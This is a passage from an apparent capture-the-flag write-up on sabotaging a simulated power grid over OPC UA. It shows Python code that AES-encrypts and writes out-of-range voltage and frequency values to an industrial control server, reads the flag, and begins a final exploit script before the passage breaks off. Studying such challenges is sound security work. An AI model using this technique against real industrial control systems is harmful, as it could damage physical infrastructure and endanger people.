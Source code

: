 ## Sabotaging the Grid

Now that we’re authenticated, we need to sabotage the grid by setting Voltage greater than `300 volts` and Frequency greater than `100 Hz`, as per our plan. These values must be encrypted and Base64-encoded as the secuirty namespace reaveals, just like the authentication values, because the server rejects unencrypted writes.

We encrypt the values and write them to the Grid namespace:

```python
vol = nd["Grid/Voltage"]
freq = nd["Grid/Frequency"]
fl = nd["Grid/Log"]

evol = enc("310.0", k, v)
efreq = enc("125.0", k, v)

vol.set_value(evol)
freq.set_value(efreq)
print("Sent sabotage values")
time.sleep(3)
```

The server responds with:

![alt text](assets/logs-update.png)

The server indicates that the log has been updated, suggesting we check the Log field in the Grid namespace.

## Retrieving the Flag

We read the Grid/Log field to retrieve the flag:

```python
fl_val = fl.get_value()
print(f"Flag: {fl_val}")
```

## Final Exploit Script

Here’s the complete exploit script used to solve the challenge:

```python
#!/usr/bin/python3
from opcua import Client
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad
import base64
import time

def enc(d, k, v):
    c = AES.new(k, AES.MODE_CBC, v)
    e = c.encrypt(pad(d.encode(), 16))
    return base64.b64encode(e).decode()

cl = Client("opc.tcp://localhost:4840")

try:
    cl.connect()
    print("Connected")
```